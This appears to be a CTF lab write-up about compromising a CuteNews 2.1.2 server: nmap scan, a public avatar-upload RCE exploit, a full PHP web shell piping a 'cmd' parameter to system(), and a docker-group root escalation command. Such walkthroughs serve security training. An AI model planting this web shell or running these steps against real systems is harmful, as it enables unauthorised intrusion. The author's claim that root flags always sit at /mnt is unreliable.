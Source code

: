 # zSecurity Cute

***

## Difficulty == Medium

![httptryhackme comjrzsecurityctf2](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/6efcd269-7e9c-4d17-8ea1-5be1850d6812)

***

Running our nmap scan we have 

```shell
# Nmap 7.94 scan initiated Fri Sep 15 07:13:45 2023 as: nmap -p- -sVC --min-rate=100 -T4 -v -oN nmap.txt 10.10.118.131
Increasing send delay for 10.10.118.131 from 5 to 10 due to 11 out of 25 dropped probes since last increase.
Warning: 10.10.118.131 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.118.131
Host is up (0.13s latency).
Not shown: 65525 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5c:98:a2:10:30:e3:65:4e:88:96:05:7b:b3:9d:0f:3c (RSA)
|   256 de:fd:60:5f:39:b3:c4:c6:7f:aa:bc:5c:64:7c:7c:e2 (ECDSA)
|_  256 00:41:7d:63:29:57:36:64:bc:00:ec:8f:e4:41:5f:d0 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4343/tcp  filtered unicall
6245/tcp  filtered unknown
12512/tcp filtered unknown
18111/tcp filtered unknown
27523/tcp filtered unknown
29407/tcp filtered unknown
45422/tcp filtered unknown
60967/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 15 07:25:24 2023 -- 1 IP address (1 host up) scanned in 698.96 seconds
```

Navigating to port 80, we have a login page, i tried several default credentials but non seems to work

![](https://i.imgur.com/I9rFnZI.png)

So i decided to **"Register"** but we need some kind of captcha test, which we don't have because this website doesn't seem to have any captcha running

![](https://i.imgur.com/NWBlteg.png)

I decided to run a directory bruteforce and we have some interesting files on this server including a `captcha.php` page, Right from here, It looks like we have shell already, lmfao 😂

![](https://i.imgur.com/7eqFs12.jpg)

Navigating to `/captcha.php` we have a text, which literally looks like the text we need for this registration, One thing i also noticed is if you refresh this page, you get a different text

![](https://i.imgur.com/PoXetHo.png)

So i created an account with the username and password as `test:test1` and we were logged in

![](https://i.imgur.com/prGbbbr.png)

Clicking the **Personal Options** menu takes us to where we can edit our profile

![](https://i.imgur.com/BxgZ69c.png)

We can see here that we can upload an avatar , This could thereforefor lead to a potential RCE vulnerability, In which Enumerating the CMS version, `Cutenews 2.1.2` ,
gives us an RCE exploit on [github](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE).

![](https://i.imgur.com/bObO9rl.png)

Make sure to clone into the exploit directory and then change the details in the `rev.php` file to your VPN IP and desired port :

![](https://i.imgur.com/ev4GtWG.png)

We can then go ahead and start up our listener then launch our exploit as shown in the image below

![](https://i.imgur.com/XrRFNvj.jpg)

Oops, well we didn't get a shell because the web server is not executing this file directly, it is passing it to another IP ADDRESS (I noticed this when i did upload a file in the legal way 😂)

![](https://i.imgur.com/uDnSj6r.png)

![](https://i.imgur.com/GSxkp4R.png)

Now we can launch our exploit again and then navigating to the path which our exploit was uploaded to manually

![](https://i.imgur.com/BcNWvJs.jpg)

![](https://i.imgur.com/F3kCe9n.png)

Note that i did change the code in `shell.php` as shown below

```PHP
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Now we can upload our PHP, Python, Bash or even NC shell through this web shell and get our reverse shell back (I used PHP ☢️)

![](https://i.imgur.com/kXghOcO.png)

We finally got the user flag in the user `jim` home's directory, we can then move on to privilege escalation

![](https://i.imgur.com/OV1qDrg.png)

![](https://i.imgur.com/bvx8CKW.gif)

***
### Privilege Escalation

Running the `id` command we can see that www-data belongs to the supplementary group `docker`. 

![](https://i.imgur.com/KRmVbhf.png)

As shown by [securiumsolutions](https://securiumsolutions.com/docker-privilege-escalation/) , we can get root by using this payload `docker run -v /root:/mnt -it alpine` , as shown below 👇

![](https://i.imgur.com/ghOZvRb.png)

Note that when you do privilege Escalation with docker or container services, the root flag is always stored at `/mnt`, Have Fun 😘

![](https://i.imgur.com/ypxtZBV.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


